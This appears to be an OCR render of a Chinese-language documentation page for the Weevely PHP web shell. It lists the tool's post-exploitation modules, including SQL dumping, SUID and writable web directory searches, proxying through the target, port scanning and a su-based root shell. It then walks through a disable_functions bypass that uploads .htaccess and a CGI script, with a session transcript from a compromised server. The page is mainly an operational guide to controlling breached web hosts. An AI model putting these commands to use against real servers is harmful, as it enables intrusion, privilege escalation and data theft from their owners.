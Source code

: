 |FILE\_ZIP|压缩或解压ZIP文件|
|FIND\_NAME|按名称查找文件和目录|
|FIND\_PERM|查找权限可读/写/可执行文件和目录|
|FIND\_SUIDSGID|查找SUID / SGID文件和目录暴破|
|FIND\_WEBDIR|查找可写的WEB目录|
|NET\_CURL|执行类似CURL的HTTP请求|
|NET\_IFCONFIG|获取网络接口地址|
|NET\_MAIL|发送邮件|
|NET\_PROXY|运行本地代理以通过目标转移HTTP / HTTPS浏览|
|NET\_PHPPROXY|在目标上安装PHP代理|
|NET\_SCAN|TCP端口扫描|
|shell\_php|执行 PHP 命令|
|shell\_su|通过更变使用者来执行shell命令，可以获得root权限来执行命令|
|shell\_sh|执行 shell 命令|
|SQL\_CONSOLE|启动SQL控制台|
|SQL\_DUMP|获取SQL数据库转储|
|SQL\_QUERY|执行SQL查询|
|SQL\_SUMMARY|获取SQL数据库中的表和列后门|
|system\_extensions|收集PHP和webserver扩展列表|
|system\_info|收集系统信息文件|
|system\_procs|列出正在运行的进程|

## audit\_disablefunctionbypass

使用mod\_cgi和.htaccess绕过系统禁用函数disable\_function的限制。它会上传.htaccess和CGI脚本，并在远程服务器上运行伪系统shell。
```shell
www-data@target:/var/www/html PHP> :audit_disablefunctionbypass
[-][disablefunctionbypass] After usage, use ':file_rm' to remove '/var/www/html/.htaccess' and '/var/www/html/acubu.ved'
[-][disablefunctionbypass] Run console without reinstalling with ':audit_disablefunctionbypass -just-run http://localhost/acubu.ved'
[-][disablefunctionbypass] Type 'quit' to return to weevely shell. Requests are not obfuscated
CGI shell replacement $ ps -aux
  PID TTY          TIME CMD
24693 ?        00:00:00 apache2
24694 ?        00:00:00 apache2
24695 ?        00:00:00 apache2
24696 ?        00:00:00 apache2
24697 ?        00:00:00 apache2
24859 ?        00:00:00 acubu.ved
24864 ?        00:00:00 ps

CGI shell replacement $ quit
www-data@emilio-lin:/var/www/html PHP> 
```
